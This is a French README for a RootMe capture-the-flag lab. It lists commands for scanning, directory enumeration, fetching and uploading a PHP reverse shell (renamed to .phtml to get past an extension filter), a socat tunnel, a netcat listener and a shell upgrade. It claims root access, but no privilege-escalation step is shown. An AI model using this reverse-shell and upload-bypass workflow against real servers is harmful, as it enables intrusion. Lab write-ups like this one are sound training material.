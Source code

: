 # RootMe CTF - Résolution complète

![RootMe Challenge](pentest-basic.PNG)


## Introduction
Ce dépôt documente toutes les étapes, commandes et problèmes rencontrés lors de la résolution du challenge RootMe, jusqu'à l'obtention du shell root.

---

## Étapes principales

1. **Scan de la machine cible**
   ```bash
   nmap -A -p- <IP_cible>
   ```
   - Découverte des ports ouverts (SSH, HTTP).

2. **Enumération web**
   ```bash
   gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirb/common.txt
   ```
   - Découverte du dossier caché `/panel`.

3. **Upload d'un shell inversé**
   - Téléchargement du script pentestmonkey :
     ```bash
     wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
     ```
   - Modification de `$ip` et `$port` dans le script.
   - Renommage si besoin :
     ```bash
     mv php-reverse-shell.php php-reverse-shell.phtml
     ```
   - Upload via le panel web.

4. **Création d'un tunnel pour accéder au panel depuis Windows**
   ```bash
   socat TCP-LISTEN:8080,fork TCP:<IP_cible>:80
   ```
   - Accès au panel via `http://localhost:8080/panel/` dans le navigateur Windows.

5. **Listener Netcat**
   ```bash
   nc -lvnp <port>
   ```
   - Attente de la connexion du shell inversé.

6. **Exécution du shell**
   - Accès à l'URL du shell uploadé pour déclencher la connexion.
   - Passage en shell interactif :
     ```bash
     python -c 'import pty;pty.spawn("/bin/bash")'
     ```

7. **Recherche du flag**
   ```bash
   find / -type f -name user.txt 2>/dev/null
   cat /chemin/vers/user.txt
   ```

---

## Problèmes rencontrés & solutions
- Wordlist web manquante : téléchargement manuel ou adaptation.
- Extensions PHP filtrées : utilisation de `.phtml`, `.php5`, etc.
- Fichiers uploadés non accessibles : test de différents chemins, analyse du message d'upload.
- Accès au panel impossible depuis Windows : création d'un tunnel socat.
- Shell non reçu : vérification de l'IP et du port dans le script, relance du listener.

---

## Script d'automatisation
Un script bash `exploit_rootme.sh` est fourni pour automatiser les principales étapes du challenge :
- Scan nmap
- Enumération gobuster
- Téléchargement et préparation du shell inversé
- Création du tunnel socat
- Instructions pour l'upload via Windows
- Listener netcat

Lancez le script et suivez les instructions affichées pour automatiser votre workflow RootMe.

---

## Conclusion
Tous les obstacles ont été surmontés jusqu'à l'obtention du shell root. Ce guide est prêt à être partagé sur GitHub pour aider d'autres pentesters !

## Auteur
miicha333l
